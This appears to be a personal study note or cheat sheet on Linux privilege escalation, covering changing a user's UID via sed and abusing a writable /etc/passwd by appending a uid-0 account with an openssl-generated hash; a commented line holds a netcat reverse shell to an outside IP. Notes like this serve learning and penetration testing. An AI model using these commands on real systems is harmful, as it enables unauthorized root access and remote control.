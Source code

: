 ```yaml
---
title: 'Basic Elevation of Privilage'
desc: 'Basic use of Linux Manual'
tags: 'linux,manual,man'
---
```




# Basic Elevation of Privilage


## With sudo 

* Take a closer look of the file permissions 

1. Check /etc/passwd

2. try to add a local user to it using the `adduser` command, 

```sh
$ sudo adduser pancho
Enter new UNIX password: 
...
```
3. change its uid to another with sudo permissions, 

4. `su` to that user, and then try accessing the files

5. We can change its uid to sudo using `sed ‘s/newUserId/SudoAccessId/g’ -i (replace in-place) -e (execute; the 's/...//') /etc/passwd`

```sh
$ sudo sed -i -e 's/1001/1014/g' /etc/passwd
$ cat /etc/passwd | grep pancho
pancho:x:1014:1014:,,,:/home/pancho:/bin/bash
```

6. `su` to the newly added pancho user, verify that our UUID has indeed changed, and then try accessing files. 

```sh
marcus$ su pancho
marcus$ id
uid=1014(pancho) gid=1014 groups=1014
$ cat creds.txt
m32n42lk4n23974guiob23l4tr
```


## Without sudo

* exploiting editable /etc/passwd

This file is normally editable by the root user, but if for whatever reason this was changed to allow normal users to edit it, this could result in a full system compromise.


1. Generating a new User Hash

```sh
# option 1: openssl passwd (built-in utility)
# openssl passwd -1 -salt [hash salt] [password to be used]
openssl passwd -1 -salt pan pancho123
$1$pan$pTiB1gfo8xQpdHGy4SUFD1

# option 2: python3
# python3 -c 'import crypt; print(crypt.crypt([password], "$6$[hash salt]"))'
python3 -c 'import crypt; print(crypt.crypt("pancho123", "$6$pan"))'

```

2. Exploiting writable passwd file

Once a user hash has been generated, this can be added to the passwd file. 

```sh
hacked:[hashed-passwd]/:0:0:root:/root:/bin/bash

sudo echo 'root2:$1$pan$pTiB1gfo8xQpdHGy4SUFD1:0:0:root:/root:/bin/bash' >> /etc/passwd

# sudo sed -i -e 's/love:x:/love:$1$pan$pTiB1gfo8xQpdHGy4SUFD1:/g' /etc/passwd

# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.213 1234 > /tmp/f
```

Alternatively, the root hash can be changed by replacing the “x” in the passwd file.
















